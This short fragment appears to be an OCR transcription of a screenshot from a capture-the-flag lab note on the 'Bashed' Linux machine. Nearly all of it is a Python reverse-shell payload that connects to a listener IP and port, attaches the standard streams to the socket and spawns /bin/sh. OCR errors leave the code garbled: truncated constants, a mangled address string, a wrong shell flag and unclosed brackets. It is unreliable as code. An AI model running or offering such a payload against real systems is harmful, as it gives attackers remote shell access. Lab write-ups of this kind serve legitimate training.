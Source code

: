 ![](Maszyny/Linux/Bashed/Pasted%20image%2020210815175809.png)

import socket, subprocess, os
s=socket.socket (socket.AF_INET, socket. SOCK_STREA
s.connect(("10.10.14.30m, 1234))
os.dup2 (s.fileno(),0)
os.dup2 (s.fileno(),1)
os.dup2 (s.fileno(),2)
p=subprocess.call(["/bin/sh","-1"]
